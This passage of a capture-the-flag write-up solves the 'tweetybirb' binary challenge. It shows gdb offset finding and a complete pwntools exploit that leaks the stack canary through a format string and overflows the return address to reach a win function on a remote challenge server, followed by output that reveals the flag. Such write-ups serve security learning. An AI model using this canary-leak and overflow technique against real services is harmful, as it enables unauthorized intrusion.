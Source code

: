```shell
Program received signal SIGSEGV, Segmentation fault.
Stopped reason: SIGSEGV
0x0000000000401272 in main ()
gdb-peda$ bt
#0  0x0000000000401272 in main ()
#1  0x6e41412441414241 in ?? ()
...
gdb-peda$ pattern_offset 0x6e41412441414241
7944702841627689537 found at offset: 8
```

Great so now we know we're overwriting the return address 8 bytes after the canary. 

##### Put it all together

We should have all the ingredients for the exploit now. Here's what I had:

```python
from pwn import *

binary = ELF('./tweetybirb')
ret = 0x00401344 # ret instruction gadget

# canary fmt string
canary_fmt = b"%15$016llx"
local = False
if local:
    p = process("./tweetybirb")
else:
    p = remote("143.198.184.186", 5002)
p.recvline()
p.sendline(canary_fmt)
canary = int(p.recv(16).decode(),16)
log.success('got canary: %s' % hex(canary))

# canary offset: 72
payload = b'A' * 72
payload += p64(canary)
# ret addr: 88 (72+canary+8)
payload += b'B' * (88-len(payload))
payload += p64(ret)
payload += p64(binary.sym["win"])
p.recvline(2)
p.sendline(payload)
p.interactive()
```

Which actually worked first go :)

```shell
$ python exp.py
[*] 'tweetybirb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 143.198.184.186 on port 5002: Done
[+] got canary: 0xb1aeea7232a02c00
[*] Switching to interactive mode
hmmm interesting. What about water fowl?
kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}

```
